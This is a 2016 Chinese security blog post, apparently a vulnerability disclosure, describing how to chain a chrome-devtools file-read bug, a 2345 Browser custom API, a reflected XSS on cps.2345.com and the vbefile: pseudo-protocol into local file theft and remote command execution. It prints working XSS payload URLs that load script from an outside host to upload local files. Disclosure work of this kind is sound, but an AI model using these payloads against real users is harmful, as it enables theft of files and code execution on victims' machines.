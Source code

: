 title: "[浏览器安全系列一] 2345浏览器本地文件读取及远程命令执行"
date: 2016-07-23 23:04:35
tags: ["安全", "浏览器安全", "XSS"]

---

案例链接：http://wooyun.org/bugs/wooyun-2016-0204520

### 背景知识

#### 0x00 chrome-devtools本地文件读取漏洞

在 http://www.wooyun.org/bugs/wooyun-2010-0176314 中使用到了一个chrome-devtools的一个本地文件读取的漏洞（只有特定几个版本有这个问题，现在已经修复），访问URL
```
chrome-devtools://devtools/bundled/inspector.html?remoteBase=http://xxx.com/&remoteFrontend=true
```
就会加载并执行xxx.com下的screencast_module.js，在这个js中，有权限使用DevToolsAPI，利用向外出容器发送类型为loadNetworkResource的消息可以读取到本地文件内容。我写了一个flask程序进行验证，见测试代码。 在C盘新建一个`111.txt`并写入内容，运行服务器之后，在2345浏览器打开`chrome-devtools://devtools/bundled/inspector.html?remoteBase=http://127.0.0.1/file/&remoteFrontend=true`。本地测试截图：
![](https://ww1.sinaimg.cn/large/005GzSIagw1f3hwy8nqwcj30ln0bigp3.jpg)

#### 0x01 WebKit系浏览器伪协议调用

在 http://www.wooyun.org/bugs/wooyun-2010-0175902 中，可以通过`location.href="vbefile:/../../../已知路径/1.js"`来执行本地文件`1.js`
![](https://ww1.sinaimg.cn/large/005GzSIagw1f3hwyb7kovj30ob0aen1j.jpg)

### 一步一步构造PoC

#### 0x00 首先我们来思考如何实现读取本地文件
	
要让用户自己主动打开：`chrome-devtools://devtools/bundled/inspector.html?remoteBase=http://x.xx.com/file/&remoteFrontend=true`貌似不太可能，如@gainover提到的，location.href，window.open进行跳转都是会因为安全问题而被浏览器限制，比如：提示Not allowed to load local resource，或打开页面是空白等措施。

#### 0x01 国产浏览器的毛病

在很多基于Chromium进行开发的国产浏览器中，厂商都会加入一些自己定制的API来实现一些特定的功能。在2345浏览器中，我发现一个API：`chrome.ntp2345.prepareThumbnail`，根据名字猜测，这个API应该是用于获取指定URL的HTML页面的截图，也就是说会先访问页面，然后渲染生成缩略图。（因为之前在一个开源项目中实现过类似功能，所以看到这个比较敏感）。进行了尝试之后，发现果然可以执行，并且服务端接收到了发送上来的文件内容，完美地绕过了安全限制！

```
chrome.ntp2345.prepareThumbnail('chrome-devtools://devtools/bundled/inspector.html?remoteBase=http://127.0.0.1/file/&remoteFrontend=true')
```

#### 0x02 XSS来帮忙

发现上面的API之后，我里面写了一个页面进行测试，发现还是有一定的限制，那就是这个API在非2345.com及其子域名下执行的话，会直接返回2并且不会访问制定的URL。怎么办？我们来找个XSS不就绕过了？这里有点幸运，我Google了一下`site:2345.com inurl:url`就找到了一个使用js进行url跳转的XSS，原理类似于@phith0n的http://wooyun.org/bugs/wooyun-2016-0179329 ，不受chrome限制的XSSAuditor一个反射型XSS。

```
http://cps.2345.com/go/?bid=2014060633&company_id=33&url=javascript:alert(document.domain);//
```
![](https://ww3.sinaimg.cn/large/005GzSIagw1f3hxp65frrj30j20abju9.jpg)
![](https://ww3.sinaimg.cn/large/005GzSIagw1f3hxp84i17j30k6098ac5.jpg)

#### 0x03 本地文件读取PoC
服务端代码：https://gist.github.com/zhchbin/c4f7de8faf8a7cfa6c0f00191277df98#file-2345_poc-py-L199-L240

用户点击一下URL，C盘下的111.txt文件内容就被上传到了服务器上，
```
http://cps.2345.com/go/?bid=2014060633&company_id=33&url=javascript:s=document.createElement(%27script%27);s.src=%27//a.zhchbin.xyz/file/xss.js%27;document.body.appendChild(s);//
```

过程总结：cps.2345.com域名下的XSS，加载/file/xss.js，执行chrome.ntp2345.prepareThumbnail(url)访问chrome-devtools:页面，读取本地文件并上传。

####  0x04 我们来实现远程命令执行

原理：（1）上述的chrome-devtools本地文件读取漏洞不仅能读取文件，还能读取文件列表！（2）我们可以通过浏览器的cache机制，写入我们指定的内容到浏览器的cache目录中（3）可以利用WebKit系浏览器伪协议调用执行cache文件。

2345浏览器的默认cache目录在：C:\Users\%USERNAME%\AppData\Local\2345Explorer\User Data\Default\Cache。要执行这个目录下的cache文件，我们要解决两个问题，首先是找出当前系统的用户名，第二是定位到我们的恶意cache文件。第一个问题，我们可以通过读取C:\Users这个目录下的文件列表，得到用户列表。然后针对每个用户，执行以下的操作来定位恶意cache文件：获取cache目录下的文件列表，保存在localStorage中，然后利用插入img的方式写入恶意cache文件，完成后再获取一次cache目录下的文件列表，找出第二次集合中新增加的文件，上传到服务器中，前端跳转到执行页面，指定iframe的src为`vbefile:/../../../../../../../../Users/xxx/AppData/Local/2345Explorer/User Data/Default/Cache/f_xxxx`，从而达到命令执行的效果。

服务端代码：https://gist.github.com/zhchbin/c4f7de8faf8a7cfa6c0f00191277df98#file-2345_poc-py-L9-L196
用户点击：
```
http://cps.2345.com/go/?bid=2014060633&company_id=33&url=javascript:s=document.createElement(%27script%27);s.src=%27//a.zhchbin.xyz/xss.js%27;document.body.appendChild(s);//
```

测试说明：因为请求有时序依赖，所以里面用了5000毫秒的等待时间，来确保顺序的正确性。测试时可以在修改一下里面的域名变成本地的地址，然后运行。

![](https://ww4.sinaimg.cn/large/005GzSIagw1f3hzd1cp2gg30my0fydmr.gif)

